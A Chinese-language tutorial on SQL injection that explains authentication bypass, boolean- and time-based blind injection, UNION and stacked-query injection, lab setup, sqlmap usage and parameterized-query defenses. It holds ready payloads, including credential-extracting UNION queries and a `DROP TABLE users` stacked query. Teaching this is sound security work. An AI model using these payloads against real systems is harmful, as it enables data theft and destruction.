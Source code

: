 # SQL注入的常见攻击手法

## 1. 技术原理解析

SQL注入（SQL Injection）是一种常见的Web安全漏洞，攻击者通过在用户输入中插入恶意SQL代码，从而操纵后端数据库查询，获取、篡改或删除数据库中的数据。SQL注入的底层实现机制主要依赖于应用程序对用户输入的处理不当，未能有效过滤或转义用户输入的特殊字符，导致恶意SQL代码被拼接并执行。

### 1.1 SQL注入的基本原理

SQL注入的核心在于应用程序将用户输入直接拼接到SQL查询语句中。例如：

```sql
SELECT * FROM users WHERE username = 'user_input' AND password = 'password_input';
```

如果用户输入`user_input`为`admin' --`，则SQL查询变为：

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password_input';
```

`--`是SQL中的注释符，后续的`AND`条件被注释掉，攻击者可以绕过密码验证。

### 1.2 SQL注入的分类

根据攻击方式和目标，SQL注入可以分为以下几类：

1. **基于错误的SQL注入**：通过构造恶意输入，触发数据库错误，从而获取数据库结构信息。
2. **基于布尔的盲注**：通过构造布尔条件，根据页面返回结果判断查询条件是否成立。
3. **基于时间的盲注**：通过构造时间延迟条件，根据页面响应时间判断查询条件是否成立。
4. **联合查询注入**：通过`UNION`操作符，将恶意查询结果合并到原始查询结果中。
5. **堆叠查询注入**：通过分号`;`分隔多个SQL语句，执行多个查询。

## 2. 常见攻击手法详解

### 2.1 基于布尔的盲注（Boolean-based Blind SQL Injection）

盲注是指攻击者无法直接看到查询结果，但可以通过页面返回的布尔值（真/假）或响应时间来判断查询条件是否成立。

#### 攻击步骤：
1. **确定注入点**：通过输入特殊字符（如`'`）触发数据库错误，确认存在SQL注入漏洞。
2. **构造布尔条件**：通过`AND`、`OR`等逻辑运算符构造布尔条件，判断查询结果。
3. **逐字符猜测**：通过二分法或逐字符猜测，获取数据库中的数据。

#### 示例：
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT SUBSTRING(username, 1, 1) FROM users WHERE id = 1) = 'a';
```

如果页面返回正常，说明第一个字符为`a`，否则继续猜测。

### 2.2 基于时间的盲注（Time-based Blind SQL Injection）

时间盲注通过构造时间延迟条件，根据页面响应时间判断查询条件是否成立。

#### 攻击步骤：
1. **确定注入点**：通过输入特殊字符触发数据库错误，确认存在SQL注入漏洞。
2. **构造时间延迟条件**：通过`SLEEP()`、`WAITFOR DELAY`等函数构造时间延迟条件。
3. **逐字符猜测**：通过二分法或逐字符猜测，获取数据库中的数据。

#### 示例：
```sql
SELECT * FROM users WHERE id = 1 AND IF((SELECT SUBSTRING(username, 1, 1) FROM users WHERE id = 1) = 'a', SLEEP(5), 0);
```

如果页面响应时间延迟5秒，说明第一个字符为`a`，否则继续猜测。

### 2.3 联合查询注入（Union-based SQL Injection）

联合查询注入通过`UNION`操作符将恶意查询结果合并到原始查询结果中，从而获取数据库中的数据。

#### 攻击步骤：
1. **确定注入点**：通过输入特殊字符触发数据库错误，确认存在SQL注入漏洞。
2. **确定列数**：通过`ORDER BY`或`UNION SELECT`确定查询结果的列数。
3. **构造联合查询**：通过`UNION SELECT`将恶意查询结果合并到原始查询结果中。
4. **获取数据**：通过联合查询获取数据库中的数据。

#### 示例：
```sql
SELECT * FROM users WHERE id = 1 UNION SELECT 1, username, password FROM users;
```

通过联合查询，攻击者可以获取`users`表中的`username`和`password`字段。

### 2.4 堆叠查询注入（Stacked Queries SQL Injection）

堆叠查询注入通过分号`;`分隔多个SQL语句，执行多个查询。

#### 攻击步骤：
1. **确定注入点**：通过输入特殊字符触发数据库错误，确认存在SQL注入漏洞。
2. **构造堆叠查询**：通过分号`;`分隔多个SQL语句，执行多个查询。
3. **执行恶意操作**：通过堆叠查询执行恶意操作，如插入、更新或删除数据。

#### 示例：
```sql
SELECT * FROM users WHERE id = 1; DROP TABLE users;
```

通过堆叠查询，攻击者可以删除`users`表。

## 3. 实验环境搭建指南

### 3.1 实验环境准备

1. **Web服务器**：安装Apache或Nginx作为Web服务器。
2. **数据库**：安装MySQL或PostgreSQL作为数据库。
3. **应用程序**：使用PHP、Python等语言编写一个简单的登录页面，模拟SQL注入漏洞。

### 3.2 实验步骤

1. **搭建Web服务器和数据库**：安装并配置Web服务器和数据库。
2. **编写漏洞代码**：编写一个存在SQL注入漏洞的登录页面。
3. **测试注入点**：通过输入特殊字符测试是否存在SQL注入漏洞。
4. **实施攻击**：根据上述攻击手法，实施SQL注入攻击，获取数据库中的数据。

## 4. 实际命令、代码或工具使用说明

### 4.1 SQLMap工具使用

SQLMap是一款自动化SQL注入工具，支持多种数据库和注入技术。

#### 安装SQLMap：
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
```

#### 使用SQLMap进行注入：
```bash
python sqlmap.py -u "http://example.com/login.php?username=admin&password=123" --dbs
```

通过SQLMap，攻击者可以自动化地检测和利用SQL注入漏洞。

### 4.2 手动注入示例

#### 基于布尔的盲注：
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT SUBSTRING(username, 1, 1) FROM users WHERE id = 1) = 'a';
```

#### 基于时间的盲注：
```sql
SELECT * FROM users WHERE id = 1 AND IF((SELECT SUBSTRING(username, 1, 1) FROM users WHERE id = 1) = 'a', SLEEP(5), 0);
```

#### 联合查询注入：
```sql
SELECT * FROM users WHERE id = 1 UNION SELECT 1, username, password FROM users;
```

#### 堆叠查询注入：
```sql
SELECT * FROM users WHERE id = 1; DROP TABLE users;
```

## 5. 防御措施

1. **参数化查询**：使用参数化查询或预编译语句，避免直接拼接用户输入。
2. **输入验证**：对用户输入进行严格的验证和过滤，避免特殊字符的输入。
3. **最小权限原则**：数据库用户应具有最小权限，避免执行敏感操作。
4. **错误处理**：避免将数据库错误信息直接返回给用户，防止信息泄露。

通过以上措施，可以有效防御SQL注入攻击，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-11 12:48:00*
